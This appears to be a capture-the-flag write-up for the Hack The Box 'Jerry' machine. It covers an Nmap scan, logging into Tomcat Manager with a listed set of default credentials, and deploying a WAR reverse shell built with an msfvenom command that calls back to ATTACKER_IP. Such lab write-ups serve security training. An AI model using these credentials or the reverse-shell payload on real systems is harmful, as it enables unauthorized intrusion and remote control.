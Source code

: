 ```yaml
---
title: "Jerry"
tags:
  - Easy
  - Windows
  - Tomcat Manager
  - Default Credentials
---
```


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|:-| :--------: |--|:------------: |--| :--------:|--|
|  |  Easy |  |  10.10.10.95 |  | [Jerry](https://app.hackthebox.com/machines/Jerry) |  |

---
### Reconnaissance
Perform **Nmap** scan to enumerate ports:

```shell
sudo nmap -sC -sV -vv -Pn -p- -T4 -o full_nmap 10.10.10.95
```

**Results:**

```
PORT     STATE SERVICE REASON          VERSION
8080/tcp open  http    syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
```

From our nmap scan, we see that only a single port is open: **8080 (HTTP)** 

---
### HTTP Exploitation (Tomcat Manager)
Visiting the HTTP server on port **8080**, I was greeted with the Apache Tomcat (v7.0.88) default page:

![screenshot1](../assets/images/Jerry/screenshot1.png)

The first thing I did was attempt to access the manager panel and see if I could log in with any Tomcat default credentials. To do so, I clicked on the **'Manager App'** button on the web page, which led to a pop-up prompting for credentials:

![screenshot1](../assets/images/Jerry/screenshot2.png)

This [Github repo](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown) contains a useful list of Tomcat Manager credentials, some of which I've compiled below:

```
# Most common Tomcat Manager credentials
admin:admin
tomcat:tomcat
admin:<NOTHING>
admin:s3cr3t
tomcat:s3cret
admin:tomcat
```

Going through the list, I found that I was able to log in with:

```
tomcat:s3cret
```

![screenshot1](../assets/images/Jerry/screenshot3.png)

Now that we are in the Tomcat Manager dashboard, we can upload a **WAR** reverse shell executable and deploy it.

We first use **msfvenom** to generate the WAR reverse shell:

```shell
msfvenom -p java/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=443 -f war -o rev.war
```

![screenshot1](../assets/images/Jerry/screenshot4.png)

Next, we upload this WAR file onto the web server, under the **'Deploy'** section:

![screenshot1](../assets/images/Jerry/screenshot5.png)

Once deployed, we see our file under the **Applications** section: 

![screenshot1](../assets/images/Jerry/screenshot6.png)

We then set up a **netcat** listener on our local machine and run the uploaded reverse shell by clicking on its name on the dashboard. With that, we see that a reverse shell was successfully established:

![screenshot1](../assets/images/Jerry/screenshot7.png)

I also realised that we were logged in as the **SYSTEM** user. We can then obtain the user and root flags, both of which were combined in a file located in the Administrator's desktop under a **flags** folder:

![screenshot1](../assets/images/Jerry/screenshot8.png)